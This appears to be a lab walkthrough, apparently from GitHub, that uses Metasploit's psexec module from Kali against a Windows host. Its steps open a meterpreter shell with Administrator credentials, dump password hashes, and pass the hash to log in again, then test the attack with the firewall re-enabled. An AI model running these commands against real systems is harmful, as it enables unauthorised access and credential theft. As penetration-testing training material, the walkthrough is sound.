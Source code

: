 <img width="770" alt="image" src="https://github.com/user-attachments/assets/d32ecb85-5873-478a-b270-fbaf33e11aec">

In another Kali terminal, get your IP address

`ifconfig`

<img width="661" alt="image" src="https://github.com/user-attachments/assets/44e622e5-34b6-4f0e-8547-769e891152e5">

msf6 > `use exploit/windows/smb/psexec`


msf6 exploit(windows/smb/psexec) > `set RHOST 10.10.70.106`

msf6 exploit(windows/smb/psexec) > `set LHOST 10.10.117.128`


msf6 exploit(windows/smb/psexec) > `set SMBUSER Administrator`

msf6 exploit(windows/smb/psexec) > `set SMBPASS password1234`

msf6 exploit(windows/smb/psexec) > `exploit`

It should look lie this:

<img width="1139" alt="image" src="https://github.com/user-attachments/assets/9eb2b530-b318-4636-a111-5d6cbe73a906">

Now dump the password hashes:

meterpreter > `hashdump`

<img width="1139" alt="image" src="https://github.com/user-attachments/assets/b3bbe145-51ab-4029-aefe-e036351af4fa">

meterpreter > exit -y


msf6 exploit(windows/smb/psexec) > `set SMBPASS aad3b435b51404eeaad3b435b51404ee:30ee6993157208a29fb730af8bcc3dfe`


<img width="1143" alt="image" src="https://github.com/user-attachments/assets/14882bb7-6891-4898-8dea-bc8023fd5930">

msf6 exploit(windows/smb/psexec) > `exploit`

<img width="1096" alt="image" src="https://github.com/user-attachments/assets/a0025016-882b-409c-90e1-ade208a19f7e">

Kill it


meterpreter > `exit -y`



Now, back at the Windows Powershell, re-enable your firewall


PS C:\Users\Administrator> `netsh advfirewall set allprofiles state on`

Then re-run the attack!!

<img width="1142" alt="image" src="https://github.com/user-attachments/assets/0cf9fa38-e3e3-419c-a346-576c90f6074c">


